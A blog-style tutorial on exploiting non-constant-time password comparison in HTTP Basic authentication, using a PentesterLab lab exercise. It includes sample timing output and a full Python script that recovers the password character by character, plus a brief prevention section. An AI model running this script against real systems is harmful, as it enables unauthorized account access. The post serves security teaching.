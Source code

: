 ```yaml
---
layout: post
title: Authentication Timing Attack
date: 2015-08-21
author: yzh503
summary: Get the password of web authentication.
categories: Web_Penetration
tags: 
 - Web penetration
 - Authentication Timing Attack
---
```


## Background 
Non-constant string comparison time is a vulnerablity of web authentication. If a web developer did not set up constant response time, attackers may get the password by comparing response time of requests. In this article, we will use [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II) authentication exercise 2 as an example. 

## Basics
![auth page](http://theimagehost.net/upload/a1a7047fe4a55636d6a11fd3cdc26dd4.png)
The process of authenticating is as the following:  
1. The browser sends a HTTP authentication request.     
2. The server compares the strings, and sends response.  

There are different types of auth requests, such as Basic, Digest, and custom authentication. The username and password are concealed in the HTTP header. This is the header of Basic Authentication, which is the type of authentication in this example.
{% highlight http %}
GET /authentication/example2 HTTP/1.1
Host: http://192.168.56.101
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
{% endhighlight %}
"dXNlcm5hbWU6cGFzc3dvcmQ=" is the base64 code of "username:password". The response will give you the status, which is whether you are authenticated or not, and some other content. Status code 200 is success, and 401 is fail. 


## How to
Suppose the actual password is "abcde". Comparing "abcde" with "ab123" and "abc123", the second one takes more time than the first one. The first one compares 3 characters, and stops at the third letter. The second one compares 4 letters, and stops at the fourth character. Based on this time difference, you could get the correct characters one by one, by comparing the response time of the auth requests. 


## Details
Write a script to send authentication requests, and jot down the response time automatically. For example, this is a part of my ouput.
{% highlight shell%}
$ python ex2.py
 0 0 1.408078
 1 1 1.408148
 2 2 1.408747
...
23 n 1.408357
24 o 1.408269
25 p 1.609422
26 q 1.407573
27 r 1.406407
...
--------------------
Suggest:  25
Select one: 25
...
 1 p1 1.607937
 2 p2 1.608372
 3 p3 1.607752
 4 p4 1.810275
 5 p5 1.608626
 6 p6 1.609457
...
--------------------
Suggest:  4
Select one: 4
...
 0 p40 1.809672
 1 p41 1.810446
 2 p42 1.808867
...
{% endhighlight %}
The format follows "Index password response_time". In the first loop, I sent requests with one character as password. "p" took longer to respond, which indicated that p is likely to be contained in the password. With the correct bit confirmed, we can then test on next bit. To make the script more reliable and stable, it is better to be able to select each character manually, and even go back. It has to stop when it finds the correct password (getting response 200). 

### Script 
For this example, I used python to send requests and count time. Requests: HTTP for Humans is an amazing library for HTTP request. You can write extremely simple neat code to send requests with this library. time.time() can be used to measure the response time. Note that time.clock() and time.time() is different. clock() counts the processing time with respect to the CPU clock, while time() counts the local time, including network latency.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
import time

dict = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
        'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
psw = ''
requests.get('http://192.168.56.101/authentication/example2', auth=HTTPBasicAuth('hacker', 'hacker'))
psw_found = False
while True:
    greatest = 0
    index = 0
    for i in range(len(dict)):
        current_psw = psw + dict[i]
        start = time.time()
        r = requests.get('http://192.168.56.101/authentication/example2', auth=('hacker', current_psw))
        taken = time.time() - start
        if greatest < taken:
            greatest = taken
            index = i
        print '{0:2d} {1:1s} {2:4f}'.format(i, psw + dict[i], taken)
        if r.status_code == 200:
            psw += dict[i]
            print 'password found: ', str(psw)
            psw_found = True
            break
    if psw_found:
        break
    print('--------------------')
    suggest = index
    print 'Suggest: ', suggest
    select = input('Select one: ')
    psw += dict[select]

{% endhighlight %}

### Prevention 
By knowing this vulnerability, you will be able to prevent people from attacking you through this way. You can either carefully compare every character, or have a constant response time.
